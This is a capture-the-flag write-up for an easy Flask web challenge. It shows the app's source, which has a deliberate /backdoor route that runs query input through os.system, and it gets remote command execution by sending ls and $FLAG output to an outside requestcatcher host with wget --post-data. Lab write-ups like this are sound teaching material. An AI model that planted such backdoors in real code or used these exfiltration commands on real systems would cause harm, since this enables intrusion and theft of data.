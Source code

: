# Cig 0
### Web - Easy

- Looks like a simple Flask app! let's dig deeper into it
- ![9a960d18fed7b56a221498bdd3d0cd26.png](9a960d18fed7b56a221498bdd3d0cd26.png)
<details>
    <summary>Reveal Code</summary>
```python
from flask import Flask, render_template, request, redirect
import os

app = Flask(\_\_name\_\_)


@app.route("/setenv", methods=\["GET"\])
def setenv():
    var = request.args.get("var")
    value = request.args.get("value")
    if var is None or var is None:
        return redirect("/")

    os.environ\[var\] = value
    # Harmless logging technique
    os.system("env > /tmp/env.txt")
    return redirect("/")


@app.route("/backdoor", methods=\["GET"\])
def backdoor():
    cmd = request.args.get("cmd")
    if cmd is None:
        return redirect("/")

    os.system(cmd)
    return redirect("/")


@app.route("/")
def show\_source\_code():
    with open(\_\_file\_\_, "r") as f:
        source_code = f.read()
    return render\_template("hello.html", source\_code=source_code)


if \_\_name\_\_ == "\_\_main\_\_":
    port = int(os.environ.get("PORT", 12000))
    app.run(debug=False, host="0.0.0.0", port=port)
```
</details>
- By analyzing the code we see `/backdoor` and `/setenv` both are useful to get RCE!
- in this chall I didn't use `/setenv` as i found and easier way to quickly solve it!
- Simply type 2 commands in `/backdoor?cmd=CMD`, the first will be finding the flag, second will be using `wget` to send data to my requestcatcher (curl wasn't installed probably as it failed) but you can actually combine it in 1 command!
- CMD: `wget --post-data=$(ls) ayham.requestcatcher.com`
- ![2f748010851ae359722a633f0dcbcab9.png](2f748010851ae359722a633f0dcbcab9.png)
- Now let's try to `ls /`
- ![d9739cc65a86d5d42a3ee4c85ba6b229.png](d9739cc65a86d5d42a3ee4c85ba6b229.png)
- hmmm! let's try environement vars! `env` but that has 1 issue, it will only send first line, we can use like `tr` or `sed` to join lines but I simply tried `echo $FLAG` and it worked!
- ![1d4f0bc922981917b37628725d68a08c.png](1d4f0bc922981917b37628725d68a08c.png)
- VOILAAA!!